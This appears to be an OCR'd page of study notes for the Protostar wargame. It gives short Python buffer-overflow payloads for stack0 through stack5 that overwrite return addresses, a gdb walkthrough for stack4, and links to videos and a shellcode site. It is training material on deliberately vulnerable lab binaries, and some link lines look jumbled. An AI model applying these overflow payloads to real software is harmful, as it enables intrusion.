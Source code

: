 [Simple]: python -c "print('A' * 76 + '\xf4\x83\x04\x08')" | ./stack4

[Detailed]: Step-by-Step
> 1.  $ cd /opt/protostar/bin
>
> 2.  $ gdb stack4
>
> 3.  `(gdb) set disassembly-flavor intel`
>
> 4. Print registers, subset of stack, and upcoming intructions
>    after each step
>
>     `(gdb) define hook-stop`
>     `> python print '------------------------'`
>     `> info registers`   #prints registers
>     `> python print '------------------------'`
>     `> x/24wx $esp`      #prints stack
>     `> python print '------------------------'`
>     `> x/5i $eip`        #prints instructions
>     `> python print '------------------------'`
>     `> end`
>
> 5.  Set breakpoints
>      Use `(gdb) disassemble main` if you want to see
>       what instruction we are breaking one
>
>    + Break at main:
>      `(gdb) break main`
>
>    + Break after user input:
>      `(gdb) break *(main+21)`
>
> 6.  `(gdb) run`
>     You should hit the first breakpoint

> 7.  On a separte terminal, run:
>     `python -c "print('A' * 76 + 'BBBB')"`
>
> 8.  Copy the output of `step 7`, paste into GDB, and press ENTER
>     Expected Output (0x42 is 'B'):
>      Program received signal SIGSEGV, Segmentation fault.
>      0x42424242 in ?? ()
>
> 9.  'BBBB" in step 7 gets stored in the eip register
>
> 10. Get address of win function
>     `(gdb) x win`
>
>     Example Output:
>      0x80483f4 <win>:	0x83e58955
>     
>     In this example `0x80483f4` is the address
>
> 11. `(gdb) quit`
>      Enter y if asked to Quit anyway
>
> 12. `python -c "print('A' * 76 + '\xf4\x83\x04\x08')" > /tmp/arg`
>
> 13. $ gdb stack4
>
> 14.  `(gdb) set disassembly-flavor intel`
>
> 15. Print registers, subset of stack, and upcoming intructions
>     after each step
>
>     `(gdb) define hook-stop`

[Protostar]: https://exploit-exercises.lains.space/protostar/
[Protostar ISO]: https://drive.google.com/drive/folders/0B9RbZkKdRR8qbkJjQ2VXbWNlQzg?usp=sharing
[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Walkthroughs]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Walkthrough]: https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13&ab_channel=LiveOverflow
[Simple]: python -c "print('A' * 65)" | ./stack0
[Simple]:  ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Simple]: python -c "print('A' * 64 + '\x24\x84\x04\x08')" | ./stack3
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Shellcode]: http://shell-storm.org/shellcode/
[Simple]: $ python -c "print('\x90' * 75 + 'BBBB')" | ./stack5
[Walkthrough]: https://www.youtube.com/watch?v=Y1RRda2Wnpw
[Walkthrough]: https://www.youtube.com/watch?v=m17mV24TgwY
[Walkthrough]: https://www.youtube.com/watch?v=IncswlWGn1M